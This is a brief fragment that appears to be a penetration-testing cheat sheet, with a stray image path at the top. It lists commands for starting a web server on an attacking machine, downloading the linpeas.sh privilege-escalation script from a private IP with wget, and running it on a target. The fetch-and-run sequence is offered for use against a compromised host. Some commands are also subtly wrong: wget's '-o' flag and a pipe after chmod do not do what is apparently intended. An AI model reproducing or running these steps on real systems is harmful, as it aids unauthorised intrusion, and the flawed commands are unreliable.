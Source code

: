 # Automation

    · python -m http.server 80

    · wget http://192.168.10.10/linpeas.sh -o linpeas.sh

    · chmod +x linpeas.sh | ./linpeas.sh | ( ./linpeas.sh | tee filename.txt )
